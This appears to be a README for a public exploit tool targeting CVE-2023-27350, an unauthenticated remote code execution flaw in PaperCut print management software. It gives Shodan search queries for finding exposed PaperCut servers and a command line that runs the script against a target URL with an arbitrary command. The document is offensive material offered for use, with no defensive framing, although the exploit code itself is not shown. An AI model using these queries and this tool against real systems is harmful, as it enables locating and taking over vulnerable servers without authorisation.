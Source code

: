 # PaperCut
CVE-2023-27350. PaperCut - Unauthenticated Remote Code Execution
# Shodan dork
    http.html:"papercut"
    http.html:"papercut" port:9191
    http.title:"PaperCut Login"  
# Usage <br/>
    python3 papercut_rce.py --url 'http://ip:9191' --command calc.exe
